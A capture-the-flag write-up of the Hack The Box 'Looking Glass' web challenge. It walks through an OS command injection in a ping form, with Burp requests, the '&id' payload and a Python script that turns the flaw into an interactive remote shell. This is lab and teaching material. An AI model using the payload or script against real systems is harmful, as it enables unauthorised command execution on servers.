

### Looking Glass

- We can see an application where a user can ping a server.



- The backend might be relying on `ping` command for this functionality. 
- The frontend is taking input which is the `IP` of the target, and supplying it to the backend which is then running the ping `command`.
- If the input here is not sanitised, we might be able to append arbitrary command and achieve `RCE`.

#### Examining the request/response on burpsuite - 

- Let us begin by testing how the application works in normal state - 

```
POST / HTTP/1.1
Host: 167.99.89.198:30118
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://167.99.89.198:30118
Connection: close
Referer: http://167.99.89.198:30118/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=167.99.89.198&submit=Test
```

```html
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 16 Jan 2022 08:29:52 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 2716


<!DOCTYPE html>
<html>
<head>
    <title>rce</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css" integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous">
</head>
<body>
    <nav class="navbar navbar-dark bg-primary mb-4">
        <span class="navbar-brand mb-0 h1">looking glass</span>
        <span class="text-white">IP: 167.99.89.198</span>
    </nav>
    <div class="container" style="max-width:1430px !important;">
        <div class="card">
            <div class="card-body">
                <div class="card-text">
                    <p>This Looking Glass provides you with information relative to backbone routing and network efficiency, providing you with the same transparency that customers on our network receive directly.</p>

                    <p>Traceroute allows a user to follow a packet through the network to a specific destination. It shows the domain, IP address and the roundtrip packet times as it traces the route to the destination.</p>

                    <p>Ping can be used to show whether or not a device with a valid Internet address or domain name can return packets sent to it by a specified server.</p>
                </div>
                <form method="POST">
                    <div class="input-group">
                        <select class="form-control" name="test">
                            <option value="ping">Ping</option>
                            <option value="traceroute">Traceroute</option>
                        </select>
                        <select class="form-control">
                            <option selected>Server 01</option>
                        </select>
                        <input type="text" name="ip_address" class="form-control" value="167.99.89.198">
                        <div class="input-group-append">
                            <input type="submit" name="submit" class="btn btn-primary" value="Test">
                        </div>
                    </div>
                                            <textarea contentEditable="true" class="form-control mt-2 disabled" style="resize:none;height:300px;" readonly>PING 167.99.89.198 (167.99.89.198): 56 data bytes
--- 167.99.89.198 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
</textarea>
                                    </form>
            </div>
        </div>
    </div>
</body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js" integrity="sha512-bLT0Qm9VnAYZDflyKcBaQ2gg0hSYNQrJ8RilYldYQ1FxQYoCLtUjuuRuZo+fjqhx/qtq/1itJ0C2ejDxltZVFg==" crossorigin="anonymous"></script>
</html>
```

- We can see 3 `POST` parameter while requesting `/` - 
	- `test` -> command that will be run.
	- `ip_address` -> IP that we want to ping.
	- `submit` -> just the submit button.
- Judging by the response, the backend in indeed running `ping`.

#### Let's get malicious - 

- If we can append arbitrary command to the IP, we can achieve `RCE`.
- We can connect multiple commands using characters like -> `&`, `|`, `;`, `||`, `&&`, \`etc.
- In this case, the `&` works.

```
POST / HTTP/1.1
Host: 167.99.89.198:30118
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://167.99.89.198:30118
Connection: close
Referer: http://167.99.89.198:30118/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=%26id&submit=Test
```

```html
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 16 Jan 2022 08:38:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 2613


<!DOCTYPE html>
<html>
<head>
    <title>rce</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css" integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous">
</head>
<body>
    <nav class="navbar navbar-dark bg-primary mb-4">
        <span class="navbar-brand mb-0 h1">looking glass</span>
        <span class="text-white">IP: 167.99.89.198</span>
    </nav>
    <div class="container" style="max-width:1430px !important;">
        <div class="card">
            <div class="card-body">
                <div class="card-text">
                    <p>This Looking Glass provides you with information relative to backbone routing and network efficiency, providing you with the same transparency that customers on our network receive directly.</p>

                    <p>Traceroute allows a user to follow a packet through the network to a specific destination. It shows the domain, IP address and the roundtrip packet times as it traces the route to the destination.</p>

                    <p>Ping can be used to show whether or not a device with a valid Internet address or domain name can return packets sent to it by a specified server.</p>
                </div>
                <form method="POST">
                    <div class="input-group">
                        <select class="form-control" name="test">
                            <option value="ping">Ping</option>
                            <option value="traceroute">Traceroute</option>
                        </select>
                        <select class="form-control">
                            <option selected>Server 01</option>
                        </select>
                        <input type="text" name="ip_address" class="form-control" value="167.99.89.198">
                        <div class="input-group-append">
                            <input type="submit" name="submit" class="btn btn-primary" value="Test">
                        </div>
                    </div>
                                            <textarea contentEditable="true" class="form-control mt-2 disabled" style="resize:none;height:300px;" readonly>uid=1000(www) gid=1000(www) groups=1000(www)
</textarea>
                                    </form>
            </div>
        </div>
    </div>
</body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js" integrity="sha512-bLT0Qm9VnAYZDflyKcBaQ2gg0hSYNQrJ8RilYldYQ1FxQYoCLtUjuuRuZo+fjqhx/qtq/1itJ0C2ejDxltZVFg==" crossorigin="anonymous"></script>
</html>
```

- In the `ip_address`, I provided the input `&id`.
- So the backend command will be something like -> `ping -c 4 &id`.
- The `ping` command will result in error and we get to see the output of `id` command.

```
uid=1000(www) gid=1000(www) groups=1000(www)
```

#### Automating the process - 

```python
from termcolor import colored
from bs4 import BeautifulSoup
import requests
import sys

def parse(res):
    soup = BeautifulSoup(res, "html5lib")
    return soup.find_all("textarea")[0].get_text()

def runCmd(url, cmd):
    data = {
            "test": "ping",
            "ip_address": "&"+cmd,
            "submit": "Test"
            }
    res = requests.post(url, data=data)
    return parse(res.content)

if __name__ == "__main__":

    banner = """
---------------------------------------------------
|         Looking Glass [HTB]  RCE script         |
|       Coded By - Nehal Zaman (@pwnersec).       |
---------------------------------------------------\n\n
    """

    print(colored(banner, "yellow"))

    if len(sys.argv) != 2:
        print(f"USAGE: {sys.argv[0]} <url>")
        sys.exit(1)

    url = sys.argv[1]
    cmd = "dummy"
    while cmd != "":
        cmd = input(colored("[ RCE ] > ", "green"))
        if cmd != "":
            print(colored(runCmd(url, cmd), "blue"))

    print(colored("Exiting pseudo-console", "red"))
```

```
┌──(py3)(kali㉿kali)-[~/Tools/obsidian/HTB/Challenges/Web/Looking Glass]
└─$ python3 looking-glass-rce.py http://167.99.89.198:30118/

---------------------------------------------------
|         Looking Glass [HTB]  RCE script         |
|       Coded By - Nehal Zaman (@pwnersec).       |
---------------------------------------------------


    
[ RCE ] > id
uid=1000(www) gid=1000(www) groups=1000(www)

[ RCE ] > ls -al
total 12
drwxr-xr-x 2 root root 4096 Nov  2  2020 .
drwxr-xr-x 1 root root 4096 Jan 16 08:17 ..
-rw-r--r-- 1 root root 2998 Nov  2  2020 index.php

[ RCE ] > 
Exiting pseudo-console
```

